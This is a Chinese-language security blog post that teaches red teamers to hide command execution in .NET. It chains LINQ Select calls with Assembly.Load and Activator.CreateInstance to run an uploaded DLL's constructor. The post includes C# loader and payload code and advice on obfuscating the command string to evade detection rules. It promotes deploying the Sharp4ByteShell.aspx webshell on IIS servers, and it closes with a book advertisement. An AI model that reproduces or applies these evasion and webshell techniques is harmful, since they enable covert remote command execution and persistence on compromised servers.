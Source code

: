 #  .NET 介绍一种隐蔽的命令执行方式，通过 LINQ 投影执行动态加载  
原创 专攻.NET安全的  dotNet安全矩阵   2025-07-01 00:31  
  
![图片](https://mmbiz.qpic.cn/mmbiz_gif/NO8Q9ApS1YibJO9SDRBvE01T4A1oYJXlTBTMvb7KbAf7z9hY3VQUeayWI61XqQ0ricUQ8G1FykKHBNwCqpV792qg/640?wx_fmt=gif&from=appmsg&wxfrom=5&wx_lazy=1&tp=webp "")  
  
在红队渗透过程中，传统的命令执行方式，比如直接调用 cmd.exe  
 或通过 Webshell 发起命令往往容易被安全产品检测到。为此，红队需要不断探索更隐蔽、更绕过主流安全机制的方法。而本文要介绍的 .NET LINQ 投影 + 反射加载 DLL 执行  
 技术，正是一种融合了语言特性与框架机制的创新利用方式。  
  
不仅规避了传统命令行行为的检测，同时以数据查询逻辑的形式隐藏真实意图，使其在安全审计、日志分析与行为检测中具备极强的对抗性。  
  
**01. 技术背景介绍**  
  
  
  
LINQ，全称 Language Integrated Query，语言集成查询，是微软从 .NET 3.5 开始引入的查询语法扩展，它允许开发者直接在 C# 或 VB.NET 中对集合、数组、数据库、XML 等进行类似 SQL 的查询操作。  
## 1.1 匿名类型  
  
LINQ 中常见的一项语法是使用匿名类型进行数据投影。  
匿名类型在代码中无须定义类结构，变量类型由 var  
 自动推断，非常适合用于 LINQ 查询结果的快速封装，具体参考如下代码  
  
```
var student =new{ Name ="Mary Jones", Age =19, Major ="History"};Console.WriteLine("{0}, Age {1}, Major: {2}", student.Name, student.Age, student.Major);
```  
  
  
由于匿名类型没有名字，必须使用  
var  
关键字作为变量类型，  
students  
变量是一个具有两个  
string  
属性和一个  
int  
属性的匿名类型。运行时如图  
所示  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Y9BEcPsrz6E5FeG5sxYTggxfGsRLeIzzgictWTdvx01k6Ntg3laLPP69DmxVI3CMBo8tic9ZYnOzvFA/640?wx_fmt=png&from=appmsg "")  
  
  
这  
种机制为我们动态生成数据结构、传递参数、包装载荷提供了名正言顺的语法基础。  
而在攻击层面，我们可以进一步利用它将执行逻辑，比如反射创建实例、动态加载 DLL“伪装”成普通的查询操作，从而绕过静态检测。  
## 1.2 LINQ查询  
  
除了对象初始化语句的赋值形式，匿名类型的对象初始化语句还有两种形式：简单标识符和成员访问表达式。这两种形式叫做投影初始化语句，具体代码如下所示。  
  
```
classOther{staticpublicstring Name ="Mary Jones";}internalclassProgram{staticvoidMain(string[] args){string Major ="History";var student =new{ Age =19, Other.Name, Major };          						Console.WriteLine("{0}, Age {1}, Major: {2}", student.Name, student.Age, 				student.Major);}}
```  
  
  
上述代码中  
 var student = new { Age = 19, Other.Name, Major };  
这个代码片段包含了  
Age  
赋值形式，  
 Other.Name   
成员访问，  
Major   
标识符。  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/NO8Q9ApS1YibRpSD0y6j0lXy6oesj1rUNbN4M7dkqw8ggw3G5w05Cib58eTkicoQBQWqWN9cCaf39UUNZgnC4icybA/640?wx_fmt=jpeg&from=appmsg "")  
  
查询语法是声明式的，也就是说，查询描述的  
LINQ  
语句是你想返回的东西，但并没有指明如何执行这个查询，看上去和  
SQL  
语句很相似，使用查询表达式形式书写。如下代码所示。  
  
```
int[] numbers ={2,5,28,31,17,16,42};var numsQuery =from n in numbers	wheren<20select n;foreach(var x in numsQuery){   Console.Write("{0}, ", x);}
```  
  
  
在  
LINQPad  
运行后输出  
  
“  
2,5,17,16  
”  
  
这四个小于  
20  
的数字，如图  
所示。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Y9BEcPsrz6E5FeG5sxYTggxLyw4icIHrYBwsNx6ibqK3HiaL5hb8fnwTvHH5LP8jCSDRQmy2AX1ahlzw/640?wx_fmt=png&from=appmsg "")  
  
**02. 红队实战应用**  
  
  
  
设想一个场景，攻击者成功上传了一个名为 net-calc.dll 的 .NET DLL，里面定义了一个触发 calc.exe 的类：  
  
```
internalclassE{publicE(){        Process.Start("calc");}}
```  
  
  
此时，若攻击者能够通过反射加载该 DLL 并执行该构造函数，即可在目标主机上实现远程命令执行，如下图所示。  
  
## 2.1 实战流程  
  
LINQ 默认采用 **延迟执行**  
，也就是说，查询不会立即执行，直到你真正需要结果的时候，例如使用 .ToList()  
、.Count()  
、.First()  
 等方法。具体参考代码如下所示。  
  
```
byte[] assemblyBytes = File.ReadAllBytes(Path.Combine(    Path.GetDirectoryName(Assembly.GetExecutingAssembly().Location),"net-calc.dll"));List<byte[]> data =newList<byte[]>();data.Add(assemblyBytes);var e1 = data.Select(Assembly.Load);var e2 = e1.SelectMany(map_type);var e3 = e2.Select(Activator.CreateInstance).ToList();
```  
  
  
这意味着，只看到了一连串的 Select  
 操作，并不会立  
即意识到这些操作是为了构造命令执行链，直到最后一步才执行。  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/NO8Q9ApS1YibRpSD0y6j0lXy6oesj1rUNUSEPjRgX2Hib9sUJrpyMOIHNNKye7BLvOibfzSO3tJPVBX9Picrz3V8yg/640?wx_fmt=jpeg&from=appmsg "")  
  
这种方式通过链式的 Select -> SelectMany -> CreateInstance  
 操作，隐藏了对 Process  
 类的直接引用，大多数规则引擎不会针对这种投影模式建立规则。此外，字符串“calc”可以事先通过混淆、Base64 编码、或从其他位置动态获取，使得 payload 更难分析。  
## 2.2 实战应用  
  
这正是 Sharp4ByteShell.aspx  
 诞生的背景 —— 一款不依赖 cmd.exe  
 的纯 .NET编写基于 LINQ 投影机制支持命令交互式操作的 **高级 WebShell**  
。  
  
将 Sharp4ByteShell.aspx  
 上传至目标服务器的 IIS Web 根目录或任意子目录中。例如  
  
```
C:\inetpub\wwwroot\Sharp4ByteShell.aspx
```  
  
  
确保目标环境支持 .NET Framework 4.0 或以上，并启用了 .NET 解析模块。接着，  
使用浏览器打开 /  
Sharp4ByteShell.aspx，如下图所示。  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1YibwQWviblia55yGoiaJKoYCD2gx7H8KrRUsP4yZ7ClRH2aI6sS2v7h9N42CoyeqZsFxSxmDg7UgxdVqQ/640?wx_fmt=png&from=appmsg&watermark=1&tp=webp&wxfrom=5&wx_lazy=1 "")  
  
加载后会显示一个输入框和执行按钮，界面简洁，无任何第三方 UI 库依赖。随后，在输入框中输入任意 Windows 命令。  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/NO8Q9ApS1Yib9XdgjGVlS3nc0gIm7PFydvd4H4Bvib7yUrWXf9BVK3h85ubY0wFqOGwC4xMxFobqndxv4UWnibpCA/640?wx_fmt=jpeg&from=appmsg&watermark=1&tp=webp&wxfrom=5&wx_lazy=1 "")  
  
**03. 小结**  
  
  
  
综上，LINQ 是 .NET 中为开发者提供的强大查询语言扩展，但正因为其灵活的链式查询与延迟执行机制，为红队提供了一个极具隐蔽性的攻击媒介。本文介绍的 LINQ + Assembly.Load + Activator.CreateInstance  
 组合方式，可以绕过常见的静态检测规则，实现无命令行行为、无文件落地的命令执行，尤其适用于高对抗场景中的命令触发、权限维持或横向利用。  
  
  
以上相关的知识点已收录于  
新书《.NET安全攻防指南》，全书共计25章，总计1010页，分为上下册，横跨.NET Web代码审计与红队渗透两大领域。  
  
  
**上册深入剖析.NET Web安全审计的核心技术，帮助读者掌握漏洞发现与修复的精髓；下册则聚焦于.NET逆向工程与攻防对抗的实战技巧，揭秘最新的对抗策略与技术方法。**  
  
  
**自《.NET安全攻防指南》上线以来，许多读者已抢先下单成功购入并收到了书籍，反响热烈，好评如潮！**  
  
**感谢大家的支持，我们也将持续为大家带来更多优质的.NET安全研究成果！原价258元，现限量优惠，京东自营店全套仅售141元，数量有限！点击京东链接：https://item.jd.com/10140917044329.html 或者打开手机京东APP即可下单购买。**  
  
  
  
